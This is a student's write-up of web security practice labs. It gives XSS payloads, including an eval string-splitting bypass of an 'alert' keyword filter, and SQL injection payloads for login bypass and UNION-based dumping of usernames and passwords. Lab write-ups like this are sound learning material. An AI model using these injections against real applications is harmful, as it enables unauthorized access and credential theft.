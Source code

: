 # XSS
## REFLECTED XSS
In this the lab contains a simple reflected xss vulnerability, where we need to use alert () function to solve it.
I called the alert function with the payload `<script>alert(0)</script>`
## DOM BASED XSS
This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.
To solve this lab, perform a cross-site scripting attack that calls the alert function.
I called the alert function with the payload `"><svg onload=alert()>`
## THE CLIENT SIDE
In this we need to use the alert function to pop up a dialogue box, but if we try it in the traditional way, it says sus link detected and eliminated, after digging a little bit into it I found that thescript filtered it out with the line
`if(link.includes("alert")){
                document.write("sus link detected.....and eliminated");
                document.body.innerHTML += "<br><a href='javascript:location.reload()'>Reload</a>";
            }`
which filters the link if it contains the word alert in it. And neither aLeRt, or changing any letters to capital would work since all letters are converted into lowercase and this turn the aLeRt into alert which gets filtered by the system.
So I used eval function and broke the function into two strings "aler" + "t()" which looks like eval("aler"+"t()"). Now this can bypass the filter since it is intercepted as aler + t() which is not alert() directly.
Here we are using eval() because with the <script> tag it cant understand or merge the two sperate strings.
# SQL Injection
## LAB LOGIN BYPASS
This is a simple login webpage. I tried to enter the username as `administrator'--+` because generally the usernames are sent to the backend by enclosing them in a string and the password is also in the same line so we can comment it out by passing `--+`. And henceforth the system only checks for the usernae and gives us the acess to the account.
## UNION ATTACK
In this we try to breach the usernames and passwords from the backend database. first we check the number of columns containg strings by the payload `' union select 'username','password'--+`. This should print the texts username and password indicating there are 2 columns which columns contain text data. So we make our final payload as `' union select username,password from users --+` which selects both the columns.
## SQLI LABS

### GENERAL APPROACH
1)	First we can check for possible sql injections using `‘`and `‘’`
2)	Then we fuzz around trying to get the syntax of the code
3)	Then we try to make the first statement false by providing something like id=-1. Since we know id is not generally negative. 
4)	We have done this to use the UNION SELECT statement. So if the first one is false so will be the 
5)	`localhost/sqli-labs/Less-1/?id=-1' UNION SELECT ‘a’,'b',database()--+` doing this will get us the name of the database
6)	Then we can type `localhost/sqli-labs/Less-1/?id=' union select NULL,NULL,column_name from information_schema.columns where  table_schema=database() and table_name='users' limit 0,1--+`
7)	To domp all the data from those sql databases.

### LAB 1
`?id=-1’ union select 1,group_concat(username),group_concat(password) from users --+` to break the code
### LAB 2
This accept only integers so it cannot take strings as input

`?id=-1%20union%20select%201,group_concat(username),group_concat(password)%20from%20users%20--+` 
### LAB 3
Same as the first one with the addition of a bracket 

`?id=-1%27)union%20select%201,group_concat(username),group_concat(password)%20from%20users%20--+`
### LAB 4
This is a double quote query

`?id=-1") union select 1,group_concat(username),group_concat(password) from users--+` breaks the code
 
